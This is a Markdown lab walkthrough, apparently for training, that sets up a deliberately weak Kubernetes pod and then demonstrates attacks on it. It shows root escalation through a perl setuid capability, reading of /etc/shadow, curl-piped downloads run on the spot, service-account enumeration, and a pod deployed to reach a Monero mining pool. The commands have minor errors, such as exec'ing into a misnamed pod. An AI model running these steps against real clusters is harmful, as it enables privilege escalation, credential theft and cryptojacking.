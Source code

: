 # Scenario 1: Perform privilege escalation 

## setup the environment

1- create pod :

```bash
cd /tmp; cat > dev-dashboard.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: dev-dashboard
  labels:
    app: dev-dashboard
spec:
  containers:
  - name: dev-dashboard
#    securityContext:
#      runAsUser: 10000
#      runAsGroup: 10000
    image: ubuntu:latest
    command: ["/bin/sleep", "3650d"]
    imagePullPolicy: IfNotPresent
  restartPolicy: Always
EOF
```

2- deploy the pod 

```bash
kubectl apply -f dev-dashboard.yml
```

3- access the new pod 

```bash
kubectl exec -it ubuntu -- bash
```

4- install some additoin 

```bash
apt update
apt install curl -y 
apt install  libcap2-bin -y 
apt install sudo -y
```

5- set up Perl command with administrative rights.

```bash
setcap cap_setuid+ep /usr/bin/perl
```

6- create new user 

```bash 
adduser demo
```

## starting the attack

Information-gathering:

```bash
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

```bash
cat /etc/shadow
ls -l /root 
ls -l /home
```

Display the capabilities /check the files that have setuid permission 

```bash
getcap -r / 2>/dev/null
sudo -l
```
in this case, the binary /usr/bin/perl has the SUID set.

privilage escalation

Capabilities are those permissions that divide the privileges of kernel user or kernel level programs into small pieces so that a process can be allowed sufficient power to perform specific privileged tasks.

```bash
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

# Scenario 2: Cryptomining

Information-gathering:

```bash
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

```bash
cat /etc/shadow
ls -l /root 
ls -l /home
```

```bash
ln -s /etc/shadow sh-link
```

Here we download and run a basic Linux config auditor to see if it finds any obvious opportunities. 
``` bash
cd /tmp; curl http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz | tar -xzvf -; unix-privesc-check-1.4/unix-privesc-check standard
```

Is it a container? 
amicontainer —> is a container introspection tool that lets you find out what container runtime is being used as well as the features available.

```bash
cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

Now let's inspect our Kubernetes environment:

```bash
env | grep -i kube
```
```bash
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```
```bash
ls /var/run/secrets/kubernetes.io/serviceaccount
```
We have typical Kubernetes-related environment variables defined, let's see if the Kubernetes security configuration is sloppy.

```bash
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://dl.k8s.io/release/v1.22.0/bin/linux/amd64/kubectl; chmod 555 kubectl
```

```bash
kubectl get all
```

By default, kubectl will attempt to use the default service account in /var/run/secrets/kubernetes.io/serviceaccount -- and it looks like this one has some API access

- Let's inspect what all we can do:

```bash
kubectl auth can-i --list
```

```bash
kubectl auth can-i create pods
```
```bash
cd /tmp; cat > crypto.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: crypto
  namespace: prd
  labels:
    app: crypto
spec:
  containers:
  - name: crypto
    image: ubuntu:latest
    command: ["/bin/sh"]
    args: ["-c", "apt update && apt install curl -y && curl pool.minexmr.com"]
    imagePullPolicy: IfNotPresent
  restartPolicy: Always
EOF
./kubectl apply -f crypto.yml
sleep 10
./kubectl get pods
```
